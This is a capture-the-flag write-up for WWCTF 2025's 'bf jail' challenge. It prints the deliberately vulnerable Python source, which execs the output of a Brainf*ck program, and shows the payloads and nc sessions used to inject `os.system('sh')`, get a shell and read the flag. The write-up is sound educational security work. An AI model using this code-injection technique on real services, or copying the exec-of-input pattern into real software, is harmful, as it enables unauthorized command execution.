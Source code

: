 <details>
<summary>++++++++++[.,]</summary>

# bf jail write-up (WWCTF 2025)

**Name:** bf jail

**Description:** Jail but with my best friend? That doesn't sound too bad. Oh wait...

**Type:** Miscellaneous / Brainf\*ck / Code Golf

**Points:** 127

**Author:** dfoo

**File:** [chall.py](/bf%20jail/chall.py)

## Analysis

Check the code:
```python
#!/usr/bin/env python3
import sys


def bf(code):
    output = ""
    s = []
    matches = {}
    tape = [0] * 1000000
    for i, j in enumerate(code):
        if j == "[":
            s.append(i)
        if j == "]":
            m = s.pop()
            matches[m] = i
            matches[i] = m
    cp = 0
    p = 0
    while cp < len(code):
        if code[cp] == "+":
            tape[p] = (tape[p] + 1) % 256
        if code[cp] == "-":
            tape[p] = (tape[p] - 1) % 256
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
        if code[cp] == ".":
            output += chr(tape[p])
        if code[cp] == "<":
            p -= 1
        if code[cp] == ">":
            p += 1
        if code[cp] == "[":
            if not tape[p]:
                cp = matches[cp]
        if code[cp] == "]":
            if tape[p]:
                cp = matches[cp]
        cp += 1

    return output
...
```
Ok it's just brainf\*ck parser, keep reading:
```python
...
if __name__ == "__main__":
    code = input("> ")
    if len(code) > 200:
        print("200 chars max")
        sys.exit(0)
    if not all(c in set("+-<>[],.") for c in code):
        print("nope")
        exit(0)
    code = bf(code)
    exec(code)
```
Hmm, so it's golfing with brainf\*ck. It's also friendly enough to run whatever our brainf\*ck code spits out - that's promising, just get the code to generate `import os;os.system('sh')` and we get the shell.

## Attempts to solve

### 0. Golfing

Get a generator to convert the string above into brainf\*ck, and perform all the necessary cancellations and optimizations possible.

However, I'm new to golfing with brainf\*ck and ~am a lazy a\*\*~ don't want to [learn it](https://codegolf.stackexchange.com/questions/12973/tips-for-golfing-in-brainfuck) on the fly, so I need to find an easier way out.

### 1. Input

Look at the parser more carefully:
```python
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
```
That's helpful - we're allowed to enter stuff ourselves! Just get a piece of basic brainf\*ck code to relay our input to output and we're done:
```brainfuck
+[,.]
```
`+` increase the data pointer to 1 to enter the loop. The loop is kept open as long as the character has an ASCII code greater than 0 (i.e. not a null byte). We can then enter whatever we want and finish with a null byte:
```
$ nc chal.wwctf.com 6002
> +[,.]
import os 
os.system('sh')
^@
Traceback (most recent call last):
  File "/app/run", line 53, in <module>
    exec(code)
ValueError: source code string cannot contain null bytes
```
It even support multiline code now, and...

Oh... the null byte is going to enter the string too. Gotta fix that now.

### 2. Not letting the null byte in

The simplest fix is to swap `,` and `.` so the entered character is tested by `[` first. The downside is that whatever is before `[` will get put in as the first character. The first character we want is `i` with ASCII code 105, so...
```
$ nc chal.wwctf.com 6002
> +++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++[.,]
mport os
os.system('sh')
^@
echo Voilà!  # input
Voilà!
```
We have the shell now.

### 3. Optimize the solution

The above works, but it is:
- ugly: the first character always gets left out
- not general: if we want to change the first character (if we ever want to do this), we have to count the number of `+`s again

Then suddenly, I had a spark in my mind: `\n` is a valid Python code! The brainf\*ck code then greatly simplifies:
```brainfuck
++++++++++[.,]
```
`++++++++++` sets the data pointer to 10 (the ASCII code of `\n`), the first execution of `.` then puts down a `\n`, and the loop executes until a null byte is entered, which is discarded. With this, we finally have

## The solution
```
$ nc chal.wwctf.com 6002
> ++++++++++[.,]
import os
os.system('sh')
^@
ls  # input
flag.txt
run
cat flag.txt  # input
wwf{4n0th3r_CTF_4n0t3r_br41nfcK_ch4ll_7696bd540337f}
```
I really liked this solution. You can now run Python code as it is from a file:
```
$ nc chal.wwctf.com 6002
> ++++++++++[.,]
while True:
    print(input('> ').replace('I', 'you')
                     .replace('my', 'your')
                     .replace('am', 'are'))
^@
> 
> What am I doing with my life
What are you doing with your life
> bruh
bruh
> 
```

---
<details>
<summary>Afterthought</summary>

As the author @dfoo said in the Discord chat, the uploaded version of the challenge was unfortunately the wrong version. The correct version should also blacklist `,` and certain keywords, forcing the players to golf `import os;os.system('sh')` in brainf\*ck. I feel a bit sorry about this, but hey, that's all the fun isn't it? 😉

As [@maximxlss](https://github.com/maximxlss) pointed out, the idea in [stage 1](#1-input) will work with some simple nested brackets
```brainfuck
+[,[.>]<]
```
This ended up even shorter than my final solution, and really captures the original spirit of the challenge even in this wrong version. I greatly appreciate the simplicity of this solution, so I relayed it here.

That being said, my monke brain would not have worked that out during the event tho. 🤪
</details>
</details>
